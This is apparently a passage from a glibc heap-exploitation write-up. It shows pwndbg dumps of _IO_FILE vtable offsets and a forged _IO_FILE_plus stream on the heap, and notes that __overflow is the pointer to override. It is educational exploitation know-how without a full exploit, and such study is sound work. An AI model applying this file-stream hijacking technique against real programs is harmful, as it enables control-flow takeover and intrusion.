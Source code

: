 ```bash
    +0x0078 __write              : _IO_write_t
    +0x0080 __seek               : _IO_seek_t
    +0x0088 __close              : _IO_close_t
    +0x0090 __stat               : _IO_stat_t
    +0x0098 __showmanyc          : _IO_showmanyc_t
    +0x00a0 __imbue              : _IO_imbue_t
```

Where `__overflow` is the function pointer we would like to override. 

Also note that because the first stream does not passes the sanity checks, the secondary stream that is stored on the heap is being interpreted as `_IO_FILE_plus`, so it has a `vtable`. 

An example secondary stream (on the heap, passes the integrity checks):

```bash
pwndbg> p *(struct _IO_FILE_plus*)_IO_list_all.file._chain
$8 = {
  file = {
    _flags = 1852400175,
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
    _IO_read_end = 0x7ffff7dd4bc8 <main_arena+168> "\270K\335\367\377\177",
    _IO_read_base = 0x7ffff7dd4bc8 <main_arena+168> "\270K\335\367\377\177",
    _IO_write_base = 0x4141414141414140 <error: Cannot access memory at address 0x4141414141414140>,
    _IO_write_ptr = 0x4141414141414141 <error: Cannot access memory at address 0x4141414141414141>,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0,
    _flags2 = 0,
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x0,
    _offset = 0,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 12 times>, "\060\250\247\367\377\177\000"
  },
  vtable = 0x5555556030d8
}
```
